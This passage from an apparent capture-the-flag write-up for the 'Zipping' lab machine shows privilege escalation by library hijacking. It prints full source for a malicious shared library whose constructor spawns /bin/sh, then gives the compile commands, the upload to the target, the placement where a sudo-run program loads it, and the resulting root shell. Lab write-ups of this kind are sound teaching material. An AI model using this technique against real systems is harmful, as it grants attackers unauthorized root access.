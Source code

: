 The library was loaded from the user's home folder. I could create my own library that would execute malicious code and have it run as root.

I found a [simple example](https://www.shellguardians.com/2010/11/escalation-with-library-upload-gnu-ld.html) that ran `sh`. I compiled it on my machine and sent it to the server.

```bash
$ cat evil.c
#include <errno.h>
#include <unistd.h>

static void __attribute__ ((constructor)) install (void)
{
      execl("/bin/sh", "/bin/sh", (char *) 0);
}

$ gcc -c -fPIC evil.c -o evil.o

$ gcc -shared -Wl,-soname,libevil.so.1 -o libevil.so evil.o

$ scp libevil.so rektsu@target:~/
libevil.so                                                                                                                                                                                               100%   15KB 102.9KB/s   00:00
```

On the server, I made it executable and copied it where the application would read it.

```bash
rektsu@zipping:~$ ls -ltrh
total 20K
-rw-r----- 1 root   rektsu  33 Oct 22 11:22 user.txt
-rwxrwx--- 1 rektsu rektsu 16K Oct 22 11:43 libevil.so
rektsu@zipping:~$ chmod 777 libevil.so

rektsu@zipping:~$ cp libevil.so /home/rektsu/.config/libcounter.so
```

I ran the program and read the root flag.

```bash
rektsu@zipping:~$ sudo /usr/bin/stock
Enter the password: St0ckM4nager

# whoami
root

# cat /root/root.txt
REDACTED
```
